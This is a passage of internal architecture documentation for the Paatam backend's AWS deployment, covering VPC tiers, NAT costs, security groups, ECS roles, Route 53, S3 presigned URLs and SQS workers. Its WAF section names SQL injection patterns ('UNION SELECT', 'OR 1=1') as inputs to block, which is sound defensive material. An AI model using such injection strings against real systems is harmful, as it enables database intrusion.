    IMAGE_TAG: ${{ github.sha }} # e.g. 085a6bf7c2d9...
  run: |
    docker build -t $ECR_REGISTRY/$ECR_REPOSITORY:$IMAGE_TAG .
    docker push $ECR_REGISTRY/$ECR_REPOSITORY:$IMAGE_TAG
```
- In [`terraform/ecr.tf`](file:///home/phani/My/paatam_application/paatam_backend/terraform/ecr.tf), set:
  ```hcl
  resource "aws_ecr_repository" "main" {
    name                 = "paatam-backend-${var.environment}"
    image_tag_mutability = "IMMUTABLE" # AWS rejects any attempt to overwrite an existing tag!
  }
  ```
- **Instant Rollback**: If commit `085a6bf` has a bug, you simply update the ECS Task Definition to point back to the previous Git SHA `67fd340`. Rollback finishes in **10 seconds**!

---

# 8. AWS High-Level Design (HLD) & Infrastructure Deep Dive

Here is the master architectural map of Paatam's AWS cloud deployment:



---

### 8.1 Virtual Private Cloud (VPC), Subnets & Route Tables

A **VPC** (Virtual Private Cloud) is your isolated private data center in AWS. Paatam uses CIDR block `10.0.0.0/16`, providing 65,536 private IP addresses.

To achieve maximum defense-in-depth, we divide the network into **Three Discrete Tiers** spanning two Availability Zones:



#### Subnet Routing Rules:
| Subnet Tier | Contains | Route Table Configuration | Internet Access |
| :--- | :--- | :--- | :--- |
| **Public Subnets** | ALB, NAT Instance | `0.0.0.0/0 -> Internet Gateway (IGW)` | Inbound & Outbound Direct |
| **Private Subnets** | ECS Fargate, Lambda Workers | `0.0.0.0/0 -> NAT Gateway / NAT Instance` | Outbound Only (via NAT); Zero Direct Inbound |
| **Isolated Subnets** | RDS PostgreSQL | No `0.0.0.0/0` route exists! | **Zero Internet Access** (Cannot be reached from internet even if compromised) |

---

### 8.1.1 VPC Endpoints Deep Dive: Gateway Endpoints vs Interface Endpoints

When your ECS containers or Lambda workers in private subnets need to talk to AWS services (like Amazon S3, ECR, SQS, or Secrets Manager), how does that traffic travel?

Without VPC Endpoints, private workloads must route their requests through the **NAT Gateway** across the public internet to reach AWS APIs! This introduces latency, security risks, and **massive cloud costs**.

A **VPC Endpoint** keeps all traffic inside AWS's private high-speed fiber backbone:



#### Comparison: Gateway Endpoints vs Interface Endpoints

| Attribute | Gateway Endpoints | Interface Endpoints (AWS PrivateLink) |
| :--- | :--- | :--- |
| **Supported Services** | **Only S3 and DynamoDB** | Almost all AWS services (ECR, SQS, Secrets Manager, CloudWatch, KMS) |
| **How it Works** | Adds a target route (`pl-xxxx`) to your VPC Route Table | Creates an Elastic Network Interface (ENI) with a private IP in your subnet |
| **Cost** | **$0.00 (Free of Charge!)** Zero hourly fee, zero data transfer fee | **~$0.01/hour per AZ** (~$7.20/mo) + **$0.01 per GB** data processed |
| **Security Controls** | VPC Endpoint Policy | Security Groups attached directly to the ENI |

In Paatam's [`terraform/main.tf`](file:///home/phani/My/paatam_application/paatam_backend/terraform/main.tf), we configure an **S3 Gateway Endpoint**:
```hcl
resource "aws_vpc_endpoint" "s3" {
  vpc_id          = aws_vpc.main.id
  service_name    = "com.amazonaws.${var.aws_region}.s3"
  vpc_endpoint_type = "Gateway"
  route_table_ids = [aws_route_table.private.id]
}
```
This single line ensures that when thousands of multi-page student PDFs are downloaded from S3 by Lambda workers, **the data transfer cost is exactly $0.00**!

---

### 8.1.2 NAT Gateway vs NAT Instance Costs & Transfer Fees Calculation

A major hidden trap for cloud developers is **AWS NAT Gateway data transfer billing**.



#### The Real Cost of an AWS Managed NAT Gateway:
1. **Hourly Fee**: $0.045/hour $\times$ 720 hours = **$32.40/month per AZ**. If you deploy across 2 Availability Zones for high availability, you pay **$64.80/month** even if you transfer 0 bytes of traffic!
2. **Data Processing Surcharge**: **$0.045 per GB**. If your students upload and evaluate 1,000 GB of scanned answer sheets per month through the NAT Gateway, you pay an extra **$45.00** in NAT fees!

#### Why Paatam Uses a NAT Instance in Dev:
In [`terraform/main.tf`](file:///home/phani/My/paatam_application/paatam_backend/terraform/main.tf), Paatam deploys an **EC2-based NAT Instance** (`t4g.nano` ARM64 Graviton) using Linux `iptables` IP masquerading:
- **Cost**: Only **~$3.50/month** flat!
- **Data Processing Surcharge**: **$0.00**!
- **Total Savings**: Saves Paatam over **$60.00 per month** in development environments while providing full outbound internet access for Gemini and Sarvam AI APIs.

| Solution | Hourly Base Cost | Data Processing Surcharge | High Availability | Best Used For |
| :--- | :--- | :--- | :--- | :--- |
| **AWS Managed NAT Gateway** | ~$32.40 / mo / AZ | **$0.045 / GB** | Automatic AWS managed failover (up to 45 Gbps) | Mission-critical Production |
| **EC2 NAT Instance (`t4g.nano`)** | **~$3.50 / mo flat** | **$0.00 / GB** | Manual instance recovery | Development & Staging |
| **S3 Gateway Endpoint** | **$0.00 (Free)** | **$0.00 / GB** | Redundant across entire AWS region | All S3 / DynamoDB traffic |

---

### Security Groups vs Network ACLs (Firewall Architecture)



- **Security Groups (Instance Level - Stateful)**:
  - If you allow inbound traffic on port 4545, the response outbound traffic is **automatically allowed**, regardless of outbound rules.
  - Paatam uses **Security Group Chaining**:
    - `ALB Security Group`: Inbound 80/443 from `0.0.0.0/0`.
    - `ECS Security Group`: Inbound 4545 allowed **strictly from `aws_security_group.alb.id`** (Direct internet IP requests are dropped at the packet level).
    - `RDS Security Group`: Inbound 5432 allowed **strictly from `aws_security_group.ecs.id` and `aws_security_group.lambda_sg.id`**.

- **Network ACLs (Subnet Level - Stateless)**:
  - Rules must be defined explicitly for both Inbound AND Outbound traffic. Acts as a second layer of defense.

---

### 8.2 Web Application Firewall (WAF) & DDoS Protection

AWS WAF inspects HTTP requests before they reach your load balancer:
1. **AWS Core Rule Set (CRS)**: Protects against common web vulnerabilities identified by OWASP (path traversal, remote code execution).
2. **SQL Injection Rule Set**: Drops queries containing malicious SQL patterns (`UNION SELECT`, `OR 1=1`).
3. **Known Bad Inputs**: Blocks requests containing malicious user-agent strings or known exploit payloads.
4. **Rate-Based Limiting**: Blocks any single IP address that fires more than 2,000 requests within a 5-minute window, neutralizing brute-force credential stuffing and scraping.

---

### 8.3 Application Load Balancers (ALB) vs Elastic Load Balancing (ELB)

"ELB" (Elastic Load Balancing) is the family umbrella name. AWS provides three distinct types:

| Load Balancer Type | OSI Layer | How it Routes | Best Used For |
| :--- | :--- | :--- | :--- |
| **Classic Load Balancer (CLB)** | Layer 4 / 7 | Legacy round-robin | Deprecated; do not use for new apps. |
| **Network Load Balancer (NLB)** | Layer 4 (TCP/UDP) | Blazing fast packet forwarding, static IP | Ultra-high throughput, gaming, IoT, raw TCP sockets. |
| **Application Load Balancer (ALB)** | Layer 7 (HTTP/HTTPS) | Inspects HTTP headers, cookies, URL paths | **Web APIs, Microservices, Node.js Apps** (Used by Paatam). |

#### Why Paatam Uses ALB:
- **Path-Based Routing**: `/api/v1/*` routes to ECS; `/docs/*` can route to static storage.
- **SSL Termination**: Handles SSL/TLS certificates via AWS Certificate Manager (ACM), decrypting traffic at the edge so Node.js doesn't waste CPU cycles on SSL handshakes.
- **Target Health Checks**: Continuously queries `GET /api/health`. If an ECS container crashes or hangs, the ALB instantly stops sending traffic to it and shifts 100% of requests to healthy tasks.

---

### 8.3.1 Amazon Route 53 (DNS Architecture, Record Types & Routing Policies)

**Amazon Route 53** is AWS's highly available, globally distributed Domain Name System (DNS) service. It acts as the "phonebook of the internet", translating human-readable names like `paatam.in` into machine IP addresses or AWS resource endpoints.



#### Core DNS Record Types in Production:

| Record Type | What it Does in Plain English | Real Production Example in Paatam |
| :--- | :--- | :--- |
| **`A` Record** | Maps a domain name directly to a static IPv4 address | `vpn.paatam.in` $\rightarrow$ `16.113.16.137` |
| **`AAAA` Record**| Maps a domain name directly to an IPv6 address | `ipv6.paatam.in` $\rightarrow$ `2600:1f18:...` |
| **`CNAME` Record**| Canonical Name: Maps a subdomain to another domain name. *Limitation: DNS RFC rules forbid CNAME at the root zone apex (`paatam.in`)!* | `app.paatam.in` $\rightarrow$ `paatam.amplifyapp.com` |
| **`ALIAS` Record** *(Route 53 Superpower)* | **AWS-Specific Extension**: Allows mapping the root apex (`paatam.in`) directly to an ALB or CloudFront distribution, dynamically tracking AWS IP changes | `paatam.in` $\rightarrow$ `aws_lb.main.dns_name`<br/>*(Zero DNS query fees charged by AWS!)* |
| **`TXT` Record** | Stores arbitrary text for domain ownership and email security verification | `_amazonses.paatam.in` $\rightarrow$ `"9Ew5jKHYS6JjCt5..."`<br/>`v=spf1 include:amazonses.com ~all` |

#### Route 53 Traffic Routing Policies:
1. **Simple Routing**: Direct 1-to-1 mapping to a single resource (e.g. Paatam ALB).
2. **Latency-Based Routing**: Directs users to the AWS region that yields the lowest network round-trip time (e.g., users in Bengaluru route to `ap-south-2` Hyderabad; users in Mumbai route to `ap-south-1`).
3. **Failover Routing (Active-Passive Disaster Recovery)**:
   - Primary Route: Points to Hyderabad (`ap-south-2`).
   - Route 53 performs periodic health checks on the ALB.
   - If Hyderabad suffers an AWS datacenter outage, Route 53 **automatically flips 100% of DNS traffic to the standby disaster recovery region** (e.g. `ap-south-1` Mumbai) in under 60 seconds!
4. **Geolocation Routing**: Routes traffic based on the geographic origin of the user's IP (e.g., restricting school exams to Indian IP addresses).

---

### 8.4 AWS ECS Fargate & Elastic Container Registry (ECR)

**Amazon ECS** (Elastic Container Service) is a fully managed container orchestration platform.

#### Key Terminology:
- **Cluster**: The logical boundary for your application workloads.
- **Task Definition**: The blueprint JSON specifying the Docker image, CPU units (`512 = 0.5 vCPU`), Memory (`1024 = 1 GB`), environment variables, and ports.
- **Task**: A running instance of your Docker container.
- **Service**: The supervisor process that maintains your desired number of tasks. If a task crashes, the Service restarts it automatically.

#### Fargate (Serverless) vs EC2 Launch Type:
- **EC2 Mode**: You must manage Linux EC2 instances, apply OS security patches, and configure Docker daemons yourself.
- **AWS Fargate Mode** *(Paatam's Choice)*: You only specify CPU and RAM. AWS provisions and manages the underlying hypervisor on demand. Zero servers to patch!

#### Graviton (ARM64) vs x86_64:
- In [`terraform/main.tf`](file:///home/phani/My/paatam_application/paatam_backend/terraform/main.tf), we leverage **ARM64 (AWS Graviton)**:
  - Delivers up to **40% better price-performance** compared to traditional x86 Intel/AMD chips.
  - Consumes significantly less power, lowering cloud hosting bills.

---

### 8.4.1 ECS IAM Roles In-Depth: Task Execution Role vs Task Role

One of the most confusing concepts for backend developers on AWS is why ECS requires **TWO distinct IAM Roles**.

```mermaid
graph TD
    subgraph AWS ECS Infrastructure Layer
        Agent["AWS ECS Agent (Host Daemon)"]
        AgentRole["Task Execution Role<br/>(aws_iam_role.ecs_execution_role)"]
        Agent --> AgentRole
        AgentRole -->|"1. Pull Docker Image"| ECR["Amazon ECR Repo"]
        AgentRole -->|"2. Create Log Stream"| CWL["CloudWatch Logs"]
        AgentRole -->|"3. Fetch DB Secrets on Boot"| SM["Secrets Manager"]
    end

    subgraph Application Runtime Layer (Inside Container)
        NodeApp["Node.js Application (Express API)"]
        TaskRole["Task Role<br/>(aws_iam_role.ecs_task_role)"]
        NodeApp --> TaskRole
        TaskRole -->|"4. Upload/Download Papers"| S3["Amazon S3 Bucket"]
        TaskRole -->|"5. Enqueue OCR Jobs"| SQS["Amazon SQS Queues"]
        TaskRole -->|"6. Send Email Notifications"| SES["Amazon SES"]
    end

    style AgentRole fill:#ffe6cc,stroke:#ff9900
    style TaskRole fill:#ccffcc,stroke:#00aa00
```

#### Side-by-Side Comparison:

| Attribute | Task Execution Role (`ecs_execution_role`) | Task Role (`ecs_task_role`) |
| :--- | :--- | :--- |
| **Who Uses It?** | The **AWS ECS Agent** (Infrastructure process on the host before your container starts) | **Your Node.js Application Code** (Inside the running container) |
| **When is it Used?** | During container boot / provisioning | At runtime while handling business logic |
| **Permissions Required**| - `ecr:GetAuthorizationToken`<br/>- `ecr:BatchGetImage`<br/>- `logs:CreateLogStream`<br/>- `logs:PutLogEvents`<br/>- `secretsmanager:GetSecretValue` | - `s3:GetObject`, `s3:PutObject`<br/>- `sqs:SendMessage`<br/>- `ses:SendEmail`<br/>- `sns:Publish` |
| **Failure Symptom if Missing**| **Container fails to start!**<br/>`CannotPullContainerError` or `ResourceInitializationError` | **Container boots fine, but crashes during API calls!**<br/>`AccessDeniedException` when saving a file to S3 |

---

### 8.4.2 ECS Service Architecture, Auto-Scaling & Metrics

In production systems, workloads are split by execution characteristics:



1. **`ecs.api` (Web API Service)**:
   - Receives inbound user traffic from the Application Load Balancer.
   - Operates on a short request-response cycle (10ms to 2s).
   - In Paatam, this is the Express backend container.

2. **`ecs.worker` / `ecs.djr` (Distributed Job Runners / Workers)**:
   - Does **not** bind to any public port or load balancer.
   - Long-running daemons that continuously poll SQS queues for batch processing tasks (like mass-generating PDF report cards).

#### Fargate Task CPU & Memory Sizing Matrix:
AWS Fargate strictly requires CPU and RAM to be allocated in specific valid ratios:

| CPU Units | Equivalent vCPU | Valid Memory Range | Paatam Configuration |
| :--- | :--- | :--- | :--- |
| **256** | 0.25 vCPU | 512 MB, 1 GB, 2 GB | Lightweight microservices |
| **512** | 0.5 vCPU | 1 GB to 4 GB | **Paatam Dev (`cpu = 512, memory = 1024`)** |
| **1024** | 1.0 vCPU | 2 GB to 8 GB | High-throughput API gateway |
| **2048** | 2.0 vCPU | 4 GB to 16 GB | Heavy in-memory PDF manipulation |

#### Automatic Scaling Policies (Target Tracking):
In production, you never manually scale containers. Paatam uses **Application Auto Scaling**:
- **Target Metric: `ECSServiceAverageCPUUtilization = 70%`**:
  - If CPU utilization exceeds 70% for 3 consecutive minutes, AWS automatically increases task count (e.g. from 2 tasks to 6 tasks).
  - When traffic subsides, tasks are gradually terminated to save costs.
- **Target Metric: `ALBRequestCountPerTarget = 1000`**:
  - Automatically spins up new containers when requests exceed 1,000 requests per minute per container.

---

### 8.4.3 Security Groups vs IAM Roles: The Fundamental Difference

Many engineers confuse Security Groups with IAM Roles. Here is the easiest way to master the difference:

> [!IMPORTANT]
> - **Security Group = Network Gateway / Traffic Firewall**:
>   Controls **packets, IP addresses, protocols (TCP/UDP), and network ports (80, 443, 4545, 5432)**. It does **not** know what code is running or who you are.
> - **IAM Role = Identity & Authorization Gate**:
>   Controls **cryptographically signed AWS API actions** (`s3:PutObject`, `sqs:SendMessage`, `dynamodb:GetItem`). It does **not** care what network port you connect on.



#### Service Security Matrix for Paatam:

| AWS Service | What the Security Group Controls | What the IAM Role Controls |
| :--- | :--- | :--- |
| **ALB** | Allows Inbound 80/443 from `0.0.0.0/0` | No IAM role needed (Pure networking) |
| **ECS Container** | Allows Inbound 4545 strictly from ALB SG | `s3:*`, `sqs:*`, `ses:*` on designated ARNs |
| **RDS PostgreSQL** | Allows Inbound 5432 strictly from ECS & Lambda SGs | No IAM role needed for direct DB connection (Uses DB password) |
| **AWS Lambda** | Outbound 5432 to RDS and 443 to NAT | `s3:GetObject`, `sqs:ReceiveMessage`, `xray:PutTraceSegments` |
| **Amazon SQS** | **NO Security Group exists!** (Managed API) | Enforced via SQS Queue Policy and Lambda IAM Role |
| **Amazon S3** | **NO Security Group exists!** (Managed API) | Enforced via S3 Bucket Policy and Task IAM Role |

---

### 8.5 Amazon S3 Security & AWS SigV4 Pre-signed URLs

In [`terraform/s3.tf`](file:///home/phani/My/paatam_application/paatam_backend/terraform/s3.tf), the S3 bucket `paatam-uploads-dev` has **Public Access Block enabled**:

```hcl
resource "aws_s3_bucket_public_access_block" "main" {
  bucket = aws_s3_bucket.main.id
  block_public_acls       = true
  block_public_policy     = true
  ignore_public_acls      = true
  restrict_public_buckets = true
}
```

### How Does the Browser View Private Student Papers Without Getting `AccessDenied`?



1. The frontend asks the backend for submission details.
2. The backend calls [`S3Service.generatePresignedDownloadUrl(url, 7200)`](file:///home/phani/My/paatam_application/paatam_backend/src/services/s3.service.ts#L47).
3. The AWS SDK computes a **SigV4 signature** using the backend's IAM credentials, timestamp, and HTTP method, appending it as query parameters:
   - `X-Amz-Algorithm=AWS4-HMAC-SHA256`
   - `X-Amz-Credential=AKIA.../20261104/ap-south-2/s3/aws4_request`
   - `X-Amz-Expires=7200` (2 hours)
   - `X-Amz-Signature=abcdef123456...`
4. When the browser requests the URL, S3 validates the cryptographic signature against AWS internal keys. If valid and not expired, S3 serves the file. **The bucket remains 100% private at all times!**

---

### 8.6 Asynchronous Serverless Queues (SQS) & Lambda Execution Workers

Evaluating exams and performing handwriting OCR on 50-page student answer stacks takes between 10 seconds and 3 minutes. **You must never process long AI tasks inside your Express HTTP request lifecycle!** If you do, client connections will time out, browsers will drop, and HTTP worker threads will choke.

Paatam uses an asynchronous **Decoupled Architecture**:

```mermaid
flowchart LR
    A["Express API"] -->|"Enqueues Job (10ms)"| B[("Amazon SQS Queue")]
    B -->|"Event Source Mapping"| C["AWS Lambda AI Worker"]
    C -->|"Evaluates with Gemini"| D["External AI"]
    C -->|"Saves Results"| E[("PostgreSQL DB")]
    C -.->|"If 3 consecutive failures"| F[("Dead-Letter Queue (DLQ)")]
```

#### SQS Configuration Deep Dive:
- **Standard Queues**: Provide nearly unlimited transactions per second with at-least-once delivery.
- **Visibility Timeout (900 seconds / 15 minutes)**: When a Lambda worker pulls a message, SQS makes that message invisible to all other workers for 15 minutes so they don't process it concurrently.
